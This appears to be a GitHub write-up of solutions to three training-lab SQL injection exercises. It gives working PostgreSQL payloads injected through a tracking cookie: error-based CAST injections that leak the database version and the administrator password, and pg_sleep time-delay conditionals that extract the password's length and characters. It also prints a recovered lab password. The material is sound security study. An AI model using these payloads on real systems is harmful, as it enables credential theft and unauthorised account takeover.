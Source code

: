 ```
author: 0xUu
date: July 7th, 2024
topic: Blind SQLi
```


# Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution

the script is found on `blind1.py`


# Lab: Visible error-based SQL injection

This lab contains a SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned.

The database contains a different table called users, with columns called username and password. To solve the lab, find a way to leak the password for the administrator user, then log in to their account.

## Solution

1. Figure the type of db we're dealing with

```
KTfYtcR96JX6ia1u' || CAST((SELECT version()) as int)--
```

-> It's a PostgreSQL database

Now, the idea is to trigger an error whenever you run a query, you can do that using
concatenation with CAST(... as int). Note that we're met with character limit in our query.

Knowing that user 'administrator' exists in the first row of users table (simple select with limit 1) confirms that.

We can retrieve the password using

```
' || CAST((SELECT password FROM users LIMIT 1) as int)--
```

password in this case is: `jt5igk104tmx6sucbl86`


# Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

## Solution

1. Determine the type of the db

```
Qdsgj7juZVDHmmYv'; SELECT pg_sleep(10)--
```

-> It's a PostgreSQL database

2. Check if 'administrator' exists

```
{TRACKING_COOKIE}'; SELECT CASE WHEN (COUNT(username) > 0) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--
```

-> Indeed we have a user with username='administrator' (COUNT returns int)

3. Figuring the length of the password

```
{TRACKING_COOKIE}'; SELECT CASE WHEN (LENGTH(password) = 20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--
```

-> the length is: 20 characters

4. Figuring out the actual password

```
{TRACKING_COOKIE}'; SELECT CASE WHEN (SUBSTRING(password, {i+1}, 1) = '{letter}') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users WHERE username='administrator'--
```

Note: the latter was just a test case, we'll use python to do this, cuz attacks are throttled in burpsuite community edition
(I AM BROKE)

-> The script is found at `blind4.py`
